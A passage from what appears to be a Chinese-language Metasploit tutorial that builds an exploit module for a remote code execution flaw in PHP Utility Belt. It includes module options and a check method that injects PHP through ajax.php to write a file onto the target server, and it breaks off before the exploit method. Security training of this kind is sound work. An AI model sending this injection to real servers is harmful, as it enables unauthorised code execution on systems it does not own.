 ```
      'Platform'       => 'php', 
      'Payload'        => 
        { 
          'Space'       => 2000, 
          'DisableNops' => true 
        }, 
      'Targets'        => 
        [ 
          ['PHP Utility Belt', {}] 
        ], 
      'DefaultTarget'  => 0 
    )) 

    register_options( 
      [ 
        OptString.new('TARGETURI', [true, 'The path to PHP Utility Belt', '/php-utility-belt/ajax.php']), 
   OptString.new('CHECKURI',[false,'Checking Purpose','/php-utility-belt/info.php']), 
      ]) 
  end 
```

我们可以看到我们已经声明了所有必需的库，并在初始化部分提供了必要的信息。由于我们正在利用基于 PHP 的漏洞，我们选择平台为 PHP。我们将`DisableNops`设置为 true，以关闭有效载荷中的`NOP`使用，因为利用针对的是 Web 应用程序中的远程代码执行漏洞，而不是基于软件的漏洞。我们知道漏洞存在于`ajax.php`文件中。因此，我们将`TARGETURI`的值声明为`ajax.php`文件。我们还创建了一个名为`CHECKURI`的新字符串变量，它将帮助我们为利用创建一个检查方法。让我们看一下利用的下一部分：

```
def check 
  send_request_cgi( 
      'method'    => 'POST', 
      'uri'       => normalize_uri(target_uri.path), 
      'vars_post' => { 
        'code' => "fwrite(fopen('info.php','w'),'<?php echo phpinfo();?>');" 
      } 
   ) 
  resp = send_request_raw({'uri' => normalize_uri(datastore['CHECKURI']),'method' => 'GET'}) 
  if resp.body =~ /phpinfo()/ 
   return Exploit::CheckCode::Vulnerable 
  else 
   return Exploit::CheckCode::Safe 
  end 
  end 
```

我们使用`send_request_cgi`方法以高效的方式容纳`POST`请求。我们将方法的值设置为`POST`，将 URI 设置为规范化格式中的目标 URI，并将`POST`参数`CODE`的值设置为`fwrite(fopen('info.php','w'),'<?php echo phpinfo();?>');`。这个有效载荷将创建一个名为`info.php`的新文件，同时编写代码，当执行时将显示一个 PHP 信息页面。我们创建了另一个请求，用于获取我们刚刚创建的`info.php`文件的内容。我们使用`send_request_raw`技术并将方法设置为`GET`来执行此操作。我们之前创建的`CHECKURI`变量将作为此请求的 URI。

我们可以看到我们将请求的结果存储在`resp`变量中。接下来，我们将`resp`的主体与`phpinfo()`表达式进行匹配。如果结果为真，将表示`info.php`文件已成功创建到目标上，并且`Exploit::CheckCode::Vulnerable`的值将返回给用户，显示标记目标为易受攻击的消息。否则，它将使用`Exploit::CheckCode::Safe`将目标标记为安全。现在让我们进入利用方法：
